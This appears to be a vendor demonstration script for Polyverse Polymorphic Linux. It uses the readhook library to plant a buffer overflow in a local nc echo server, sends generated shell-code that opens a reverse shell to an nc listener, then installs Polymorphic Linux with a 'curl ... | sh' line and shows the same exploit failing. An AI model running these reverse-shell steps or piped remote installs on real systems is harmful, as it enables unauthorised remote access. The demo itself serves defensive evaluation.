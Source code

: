 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple nc echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm --name echo -it -p 8080:8080 alpine:3.7 sh 
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/fullhook.so
### (2) Start nc with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" nc -lk -p 8080 -e /bin/cat
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
## Start a vanilla nc to talk to the echo server container
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Kill the currently running nc echo server
    ^C
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so nc -kl -p 8080 -e /bin/cat
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
